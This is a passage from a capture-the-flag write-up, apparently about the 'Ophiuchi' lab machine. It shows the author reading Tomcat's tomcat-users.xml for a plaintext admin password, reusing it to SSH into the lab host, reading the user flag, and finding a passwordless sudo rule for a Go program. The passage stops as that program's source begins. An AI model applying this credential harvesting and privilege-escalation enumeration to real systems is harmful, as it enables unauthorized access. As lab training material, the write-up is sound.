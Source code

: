 We look at the file and found a few default username and passwords and also the
`admin` user with the `whythereisalimit` password.

    :::text
    cat conf/tomcat*
    <?xml version="1.0" encoding="UTF-8"?>
    <!--
    <SNIP>
    <tomcat-users xmlns="http://tomcat.apache.org/xml"
                  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                  xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
            version="1.0">
    <user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
    SNIP>
    <!--
      <role rolename="tomcat"/>
      <role rolename="role1"/>
      <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
      <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
      <user username="role1" password="<must-be-changed>" roles="role1"/>
    -->
    <SNIP>

We connect to the box with SSH using this user and got the first flag.

    :::text
    kali@kali:~$ #whythereisalimit
    kali@kali:~$ ssh admin@10.129.98.255
    admin@10.129.98.255's password:
    Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-51-generic x86_64)
    <SNIP>
    admin@ophiuchi:~$ id
    uid=1000(admin) gid=1000(admin) groups=1000(admin)
    admin@ophiuchi:~$ cat user.txt
    6aa83180b3e469e3f5de725c639a601b

# Root

We enumerate the box and quickly found out that we can execute a specific go
program as root without password.

    :::text
    admin@ophiuchi:~$ sudo -l
    Matching Defaults entries for admin on ophiuchi:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User admin may run the following commands on ophiuchi:
        (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go


The content of the "index.go" file is the following:

    ::golang
    package main
